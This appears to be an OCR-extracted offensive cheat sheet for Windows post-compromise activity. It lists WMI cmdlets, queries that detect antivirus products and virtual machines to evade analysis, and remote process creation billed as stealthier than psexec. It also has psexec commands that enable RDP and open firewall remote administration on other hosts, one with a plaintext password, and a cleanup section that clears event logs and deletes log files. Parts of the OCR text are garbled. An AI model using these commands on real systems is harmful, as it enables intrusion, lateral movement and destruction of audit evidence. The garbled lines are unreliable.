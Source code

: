Powershell x WMIC
    wmic.exe
Powershell WMI cmdlets
-- Get-WmiObject
-- Get-CimAssociatedInstance
-- Get-CimClass
-- Get-CimInstance
-- Get-CimSession
-- Set-WmiInstance
-- Set-CimInstance
-- Invoke-WmiMethod
-- Invoke-CimMethod
-- New-CimInstance
-- New-CimSession
-- New-CimSessionOption
-- Register-CimIndicationEvent
-- Register-WmiEvent
-- Remove-CimInstance
-- Remove-WmiObject
-- Remove-CimSession
Get-WmiObject -Class Win32_Process -ComputerName 192.168.72.134 -Credential ‘WIN-B85AAA7ST4U\Administrator'
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct
    -av detection
SELECT * FROM Win32_ComputerSystem WHERE TotalPhysicalMemory < 2147483648
SELECT * FROM Win32_ComputerSystem WHERE NumberOfLogicalProcessors < 2
SELECT * FROM Win32_NetworkAdapter WHERE Manufacturer LIKE “%VMware%”
SELECT * FROM Win32_BIOS WHERE SerialNumber LIKE “%VMware%”
SELECT * FROM Win32_Process WHERE Name=”vmtoolsd.exe”
SELECT * FROM Win32_NetworkAdapter WHERE Name LIKE “%VMware%”
    -vm detection
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList ‘notepad.exe’
    -code execution, like psexec but stealthier
       
SYSINTERNALS
PSEXEC
psexec /?
psexec -accepteula
psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
psexec \\10.2.2.23 netsh firewall set service remoteadmin enable
psexec \\JAMES -u james -p FmyN3rZ37LNss2X netsh firewall set service remoteadmin enable
 
CLEANUP
wevtutil el
    -list logs
wevtutil cl log.log
    -clear specific lowbadming
del %WINFRT%\*.log /a /s /q /f
 
ADVANCED
DRIVERQUERY
 